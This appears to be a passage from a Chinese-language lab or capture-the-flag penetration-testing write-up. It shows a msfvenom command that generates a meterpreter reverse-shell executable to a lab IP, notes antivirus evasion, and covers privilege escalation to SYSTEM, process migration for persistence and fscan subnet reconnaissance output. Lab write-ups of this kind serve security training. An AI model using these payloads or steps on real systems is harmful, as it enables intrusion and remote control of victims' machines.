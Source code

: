 这里利用`360`免杀马上线`MSF`，先生成一个简单的`MSF`马，再在这基础上做免杀，上线后直接`getsystem`提权到`NT AUTHORITY\SYSTEM`。

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.206 lport=5555 -f exe -o h3.exe
```

![](./images/7.png)

进程迁移一下，实现持久化来维持权限。

```powershell
# 查看目标设备中运行的进程
ps
# 查看当前的进程ID
getpid
# 绑定目标进程ID
migrate ID
```

![](./images/8.png)

在`Administrator`用户桌面获取到`flag1`。

![](./images/9.png)


## 0x02 横向渗透

利用`fscan`来搜集网段其它主机信息，探测`192.168.22.1`网段。

![](./images/10.png)

```text
192.168.22.133:445 open
192.168.22.129:445 open
192.168.22.129:3306 open
192.168.22.128:3306 open
192.168.22.133:1433 open
192.168.22.128:445 open
192.168.22.1:445 open
192.168.22.133:139 open
192.168.22.129:139 open
192.168.22.128:139 open
192.168.22.1:139 open
192.168.22.133:135 open
192.168.22.129:135 open
192.168.22.128:135 open
192.168.22.1:135 open
192.168.22.133:80 open
192.168.22.129:80 open
192.168.22.128:80 open
192.168.22.128:21 open
[*] alive ports len is: 19
start vulscan
[*] NetInfo:
[*]192.168.22.128
   [->]12server-web1
   [->]192.168.22.128
   [->]192.168.31.186
[*] NetInfo:
[*]192.168.22.129
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] NetInfo:
[*]192.168.22.133
```